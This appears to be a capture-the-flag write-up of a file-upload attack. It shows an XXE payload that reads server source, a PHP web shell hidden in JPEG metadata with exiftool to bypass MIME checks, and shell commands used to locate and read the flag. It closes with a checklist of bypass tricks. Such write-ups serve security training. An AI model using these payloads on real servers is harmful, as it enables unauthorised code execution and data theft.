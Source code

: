 ## **Step-by-Step Walkthrough**

## **Step 1: Identifying the File Upload Mechanism**
- Uploaded a simple `test.php` file to the upload form and observed the response.
- Noticed the application rejected `.php` but accepted files with extensions like `.phar.jpg`.
- Determined that the upload form checks both **file extension** and **MIME type**.

## **Step 2: Discovering the Upload Directory**
- Examined page source and found references to `submit.php`.
- Discovered `script.js` containing more information, including `upload.php`.
- Navigated to `upload.php`, but it didn’t reveal anything directly.

## **Step 3: Using XXE to Extract `upload.php` Source Code**
- Exploited an **XML External Entity (XXE)** vulnerability to extract `upload.php`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
  <svg>&xxe;</svg>
  ```
- Intercepted the request in **Burp Suite**, modified the file validation logic, and uploaded the `.svg` file.
- Received a **base64-encoded** response, which was decoded using **CyberChef**.
- Learned:
  - Where files are stored.
  - How files are renamed (`YMD_filename` format).
  - That the system used **MIME-Type validation**.

## **Step 4: Bypassing MIME-Type Validation**
- Attempted to upload a **JPEG file with a PHP payload**, but the system detected the payload.
- Realized the application used **`mime_content_type()`**, which checks actual file content, not just the extension.
- Instead of using a fake extension, created a **legitimate JPEG file** and embedded the PHP payload using `exiftool`.

## **Step 5: Crafting the Malicious Payload**
1. Created a blank 100x100 white image:
   ```bash
   convert -size 100x100 xc:white image.jpg
   ```
2. Embedded the PHP payload inside the image metadata:
   ```bash
   exiftool -Comment='<?php system($_REQUEST["cmd"]); ?>' image.jpg -o shell.phar.jpg
   ```
3. Uploaded the `shell.phar.jpg` file.

## **Step 6: Exploiting the Uploaded Web Shell**
- Navigated to the correct upload directory based on previous findings:
  ```bash
  /contact/user_feedback_submissions/250330_shell.phar.jpg?cmd=id
  ```
- Verified code execution by running `id`.

## **Step 7: Finding and Reading the Flag**
- Searched for flag files:
  ```bash
  /contact/user_feedback_submissions/250330_shell.phar.jpg?cmd=find / -name flag*.txt
  ```
- Located the flag file and retrieved its contents:
  ```bash
  /contact/user_feedback_submissions/250330_shell.phar.jpg?cmd=cat /flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
  ```

---

## **Summary**
You exploited an insecure file upload by bypassing file extension restrictions, MIME-type validation, and leveraging an XXE vulnerability to gather insights about the server. Using this knowledge, you embedded a PHP web shell inside a valid JPEG file and executed commands remotely to locate and read the flag.

---

### **Key Takeaways**
- **File upload security is often weak**—restrictions on extensions alone are insufficient.
- **MIME-Type validation can be bypassed** by ensuring the file header matches the expected format.
- **XXE vulnerabilities** can be leveraged to read source code, revealing how files are handled.
- **Exploiting metadata** (e.g., `exiftool`) is an effective method to bypass image validation checks.
- **Identifying the upload directory** is crucial for accessing your uploaded malicious file.
- **Understanding file renaming patterns** helps in constructing the correct request.

---

### **Things to Remember for Future Tests**
1. **File Extension Bypass**
   - Try `.phar`, `.phar.jpg`, `.php5`, `.phtml`, `.php.jpg`, etc.

2. **MIME-Type Validation Bypass**
   - Ensure the file header matches the expected format.
   - Use **exiftool** to embed payloads inside images.

3. **Finding the Upload Directory**
   - Check **page source, JavaScript files, and API calls**.
   - Use **XXE, LFI, or directory brute-forcing** if needed.

4. **Code Execution**
   - Use a **web shell** (e.g., `system($_GET['cmd']);`).
   - Test execution with simple commands like `id` or `whoami`.

5. **Post-Exploitation**
   - **Find flag files** with `find / -name flag*.txt`.
   - **Read them** using `cat`.

By systematically approaching file upload vulnerabilities, you can effectively escalate them into full **remote code execution (RCE)**. 🚀
